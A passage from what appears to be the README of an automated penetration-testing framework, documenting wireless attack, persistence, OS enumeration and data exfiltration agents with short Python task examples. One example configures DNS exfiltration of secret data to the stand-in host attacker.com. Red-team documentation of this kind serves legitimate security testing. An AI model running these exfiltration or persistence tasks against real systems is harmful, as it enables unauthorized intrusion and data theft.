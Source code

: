 ### 12. Wireless Network Analysis Agent
The Wireless Network Analysis Agent analyzes and attacks wireless networks.

**Usage:**
```python
# Example task for scanning wireless networks
task = {
    "type": "scan",
    "interface": "wlan0",
    "options": []
}
wireless_network_analysis.execute_task(task)
```

### 13. Persistence Agent
The Persistence Agent tests for persistence mechanisms on compromised systems.

**Usage:**
```python
# Example task for checking startup items
task = {
    "target": "192.168.1.10",
    "method": "startup_item",
    "options": []
}
persistence_agent.execute_task(task)
```

### 14. System Enumeration Agent
The System Enumeration Agent enumerates details about the target operating system.

**Usage:**
```python
# Example task for OS enumeration
task = {
    "type": "os_enum",
    "target": "192.168.1.10",
    "tool": "nmap",
    "options": ["-O"]
}
system_enumeration.execute_task(task)
```

### 15. Data Exfiltration Agent
The Data Exfiltration Agent simulates data exfiltration techniques.

**Usage:**
```python
# Example task for DNS exfiltration
task = {
    "type": "dns_exfil",
    "target": "attacker.com",
    "payload": "SECRET_DATA",
    "options": {"chunk_size": 30}
}
data_exfiltration.execute_task(task)
```
